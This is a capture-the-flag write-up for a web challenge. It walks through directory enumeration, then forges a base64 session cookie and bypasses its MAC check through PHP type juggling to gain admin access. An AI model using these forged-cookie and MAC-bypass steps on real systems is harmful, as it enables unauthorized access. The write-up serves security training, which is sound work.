








# WEB CHALLENGE: GRAMMAR

## Challenge Description
When we access this page we get a Forbidden error. However we believe that something strange lies behind... Can you find a way in and retrieve the flag? 

```
host: 88.198.233.174 port:37337
```



### BURPSUITE

Let's see what does burpsuite tell us..

```
<REQUEST>
GET / HTTP/1.1
Host: 88.198.233.174:37337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 403 Forbidden
Date: Wed, 27 Dec 2017 07:36:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 292
Connection: close
Content-Type: text/html; charset=iso-8859-1
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access / on this server.<br />
</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 88.198.233.174 Port 37337</address>
</body></html>
</RESPONSE>
```

### ENUMERATE

Well, if we don't have permission to hit `/`, then we need to enumerate our way
to another access point..

```
$ dirb http://88.198.233.174:37337 /usr/share/wordlists/dirb/small.txt -w

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Dec 27 02:44:35 2017
URL_BASE: http://88.198.233.174:37337/
WORDLIST_FILES: /usr/share/wordlists/dirb/small.txt
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 959                                                           

---- Scanning URL: http://88.198.233.174:37337/ ----
(!) WARNING: All responses for this directory seem to be CODE = 403.           
    (Use mode '-w' if you want to scan it anyway)
-----------------
END_TIME: Wed Dec 27 02:52:09 2017
DOWNLOADED: 959 - FOUND: 0
```

```
$ gobuster -e -u 88.198.233.174:37337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://88.198.233.174:37337/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
```

```
$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/megabeast.txt --hs Forbi  http://88.198.233.174:37337/FUZZ.php
```

.. so this doesn't get us anywhere.

### POST REQUEST?

What if instead of doing a GET request, we turned it into a POST request?

```
http://www.restapitutorial.com/lessons/httpmethods.html
```

```
$ wget http://88.198.233.174:37337
--2017-12-27 02:54:18--  http://88.198.233.174:37337/
Connecting to 88.198.233.174:37337... connected.
HTTP request sent, awaiting response... 403 Forbidden
2017-12-27 02:54:19 ERROR 403: Forbidden.

$ wget --post-data "username=mytest" http://88.198.233.174:37337
--2017-12-27 02:55:22--  http://88.198.233.174:37337/
Connecting to 88.198.233.174:37337... connected.
HTTP request sent, awaiting response... 403 Forbidden
2017-12-27 02:55:23 ERROR 403: Forbidden.
```

Hitting `/` with the `POST` request didn't yield anything, but hitting
`index.php` did!

```
$ wget --post-data "username=mytest" http://88.198.233.174:37337/index.php
--2018-01-13 23:05:05--  http://88.198.233.174:37337/index.php
Connecting to 88.198.233.174:37337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 274 [text/html]
Saving to: ‘index.php’

index.php           100%[===================>]     274  --.-KB/s    in 0s      

2018-01-13 23:05:06 (40.0 MB/s) - ‘index.php’ saved [382]
```

```
$ cat index.php
<html>
<body>

<form action="index.php" method="post">
Change Username: <br>
<input type="text" name="fuckhtml" placeholder="notimportant">
<!-- HTB hint:really not important...totaly solvable without using it! Just there to fill things and to save you from some trouble you might get into :) -->
<input type="submit" value="Change">
</form>
</body>
</html>


not an admin (yet)
```



Let's take a closer look at the server response to our POST request using
`Postman`..




```
<RESPONSE>
Content-Encoding: gzip

Content-Length: 274

Content-Type: text/html; charset=UTF-8

Date: Sun, 14 Jan 2018 04:41:35 GMT

Server: Apache/2.4.18 (Ubuntu)

Set-Cookie: ses=eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ%3D%3D

Vary: Accept-Encoding

<html>
<body>

<form action="index.php" method="post">
Change Username: <br>
<input type="text" name="fuckhtml" placeholder="notimportant">
<!-- HTB hint:really not important...totaly solvable without using it! Just there to fill things and to save you from some trouble you might get into :) -->
<input type="submit" value="Change">
</form>
</body>
</html>


not an admin (yet)
</RESPONSE>
```

Interesting.. so there is a cookie that is also returned which always appears to
be the same value even for subsequent POST requests.

### C IS FOR COOKIE

Let's see if we can decode this cookie..

```
ORIGINAL

ses=eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ%3D%3D
```

```
URL DECODED

ses=eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ==
```

```
BASE64 DECODED

$ echo "eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ==" | base64 -D
{"User":"whocares","Admin":"False","MAC":"ff6d0a568d61e5a03bcdb04509d5885d"}
```

Hm.. is it as simple as manipulating the "Admin" flag and sending the cookie
as part of the POST request?

### NEW COOKIE (ADMIN:TRUE)

Let's try crafting a new cookie with the "Admin" flag flipped to "True" and see
what happens.

```
BASE64 ENCODED

$ echo "{"User":"whocares","Admin":"True","MAC":"ff6d0a568d61e5a03bcdb04509d5885d"}" | base64
e1VzZXI6d2hvY2FyZXMsQWRtaW46VHJ1ZSxNQUM6ZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWR9Cg==
```

```
URL ENCODED COOKIE
ses=e1VzZXI6d2hvY2FyZXMsQWRtaW46VHJ1ZSxNQUM6ZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWR9Cg%3D%3D
```



Ooooh.. we got a different message this time!

```
you've fucked something up
```

Looking more closely at the generated cookie value, I realized that I was
encoding a newline at the end and I shouldn't be. Trying the above steps again
with the newline-free cookie we get a different error message!

```
$ echo -n '{"User":"whocares","Admin":"True","MAC":"ff6d0a568d61e5a03bcdb04509d5885d"}' | base64
eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IlRydWUiLCJNQUMiOiJmZjZkMGE1NjhkNjFlNWEwM2JjZGIwNDUwOWQ1ODg1ZCJ9
```



```
what are you trying to do huh?
```

### NEW COOKIE II (USER:ADMIN, ADMIN:TRUE)

Let's play with the "User" flag as well?

```
$ echo -n '{"User":"Admin","Admin":"True","MAC":"ff6d0a568d61e5a03bcdb04509d5885d"}' | base64
eyJVc2VyIjoiQWRtaW4iLCJBZG1pbiI6IlRydWUiLCJNQUMiOiJmZjZkMGE1NjhkNjFlNWEwM2JjZGIwNDUwOWQ1ODg1ZCJ9
```

```
URL ENCODED COOKIE
ses=eyJVc2VyIjoiQWRtaW4iLCJBZG1pbiI6IlRydWUiLCJNQUMiOiJmZjZkMGE1NjhkNjFlNWEwM2JjZGIwNDUwOWQ1ODg1ZCJ9
```

Hm.. still the same "what are you trying to do huh?" response as when we just
fiddled with the `Admin` flag.

### NEW COOKIE III (USER:ADMIN, ADMIN:TRUE, MAC:???)

Okay. so it looks like we need to fool the MAC field?

```
https://en.wikipedia.org/wiki/Hash-based_message_authentication_code

In cryptography, a keyed-hash message authentication code (HMAC) is a specific
type of message authentication code (MAC) involving a cryptographic hash
function and a secret cryptographic key. It may be used to simultaneously verify
both the data integrity and the authentication of a message, as with any MAC. 
```

Researching around (i.e. Google), came across the topic of `type juggling`
with `PHP` that might be interesting to try..

```
Laravel Cryptographic MAC Bypass
https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf

A Laravel "encryption payload" looks like this:
{
 "iv": "137f87545d8d2f994c65a6f336507747",
 "value": "c30fbe54e025b2a509db7a1fc174783c35d023199f9a0e24ae23a934277aec66"
 "mac": "68f6611d14aa021a80c3fc09c638de6de12910486c0c82703315b5d83b8229bb",
}

The MAC check code looked like this:

$payload = json_decode(base64_decode($payload), true);
if ($payload['mac'] != hash_hmac('sha256', $payload['value'], $this->key))
 throw new DecryptException("MAC for payload is invalid.");

The calculated MAC (i.e. the result of hash_hmac()) is a string containing
hexadecimal characters.

The use of a loose comparison means that if an integer was provided in the JSON
payload, the HMAC string will be juggled to a number

- "7a5c2...72c933" == int(7)
- "68f66...8229bb" == int(68)
- "092d1...c410a9" == int(92)

If the calculated MAC is "68f66...8229bb" then the following payload will pass
the MAC check:
{
 "iv": "137f87545d8d2f994c65a6f336507747",
 "value": "c30fbe54e025b2a509db7a1fc174783c35d023199f9a0e24ae23a934277aec66"
 "mac": 68,
}

The MAC bug allows an attacker to submit arbitrary ciphertexts and IV's which
are processed by the server in CBC mode.
```

So let's try changing the `MAC` field to an integer instead of a string to see
if the validation code is vulnerable to "loose comparison".. but what integer
to use?



If the MAC field is a string, the table appears to suggest that `if ("str"==0)`
would resolve to `true`, so if we feed in a MAC of `0`.. would that make the
comparison always work?

```
$ echo '{"User":"Admin","Admin":"True","MAC":0}' | base64
eyJVc2VyIjoiQWRtaW4iLCJBZG1pbiI6IlRydWUiLCJNQUMiOjB9Cg==
```
```
URL ENCODED
ses=eyJVc2VyIjoiQWRtaW4iLCJBZG1pbiI6IlRydWUiLCJNQUMiOjB9Cg%3D%3D
```



.. weeeeeeeeeeeeeeeeeeeeee.... that worked!
